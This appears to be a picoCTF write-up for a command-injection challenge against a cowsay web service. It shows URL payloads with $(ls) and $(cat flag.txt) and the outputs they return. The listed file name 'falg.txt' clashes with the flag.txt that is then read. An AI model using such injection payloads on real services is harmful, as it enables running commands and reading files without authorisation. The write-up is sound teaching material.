 
---

## Cowsay as a Service (CaaS) – Challenge Writeup

---

### Challenge Description

Make a request to the following URL to cowsay your message:
**[https://caas.mars.picoctf.net/cowsay/{message}](https://caas.mars.picoctf.net/cowsay/{message})**

This service takes a `{message}` parameter and returns an ASCII cow speaking the message. It appears to be a basic web wrapper around the classic Unix `cowsay` utility.

---

### Initial Exploration

By visiting the URL with different message inputs, such as:

* `https://caas.mars.picoctf.net/cowsay/Hello`
* `https://caas.mars.picoctf.net/cowsay/Test123`
* `https://caas.mars.picoctf.net/cowsay/I%20am%20a%20cow!`

The application returns ASCII art like:

```
 _________
< I am a cow! >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

This confirms the server is taking the user input from the URL path and injecting it directly into the `cowsay` command.

---

### Exploitation Strategy

The key vulnerability here lies in the backend’s handling of user input. If the input is passed directly to the shell, like so:

```bash
cowsay {user_input}
```

and not sanitized properly, then this opens the door to **command injection** via shell features like **command substitution**.

In Unix, anything within `$(...)` or backticks (`` `...` ``) is executed before the main command.

---

### Exploiting the Vulnerability

To verify command execution, access:

```
https://caas.mars.picoctf.net/cowsay/$(ls)
```

If the backend is vulnerable, the cow will say the result of the `ls` command. For example:

```
 __________________________________
/ Dockerfile falg.txt index.js     \
| node_modules package.json public |
\ yarn.lock                        /
 ----------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```


This indicates that `flag.txt` is present in the current directory.

To read its contents:

```
https://caas.mars.picoctf.net/cowsay/$(cat%20flag.txt)
```

This will output:

```
 _________________________________________
/ picoCTF{moooooooooooooooooooooooooooooo \
\ oooooooooooooooooooooooooooooo0o}       /
 -----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Flag successfully retrieved.

---
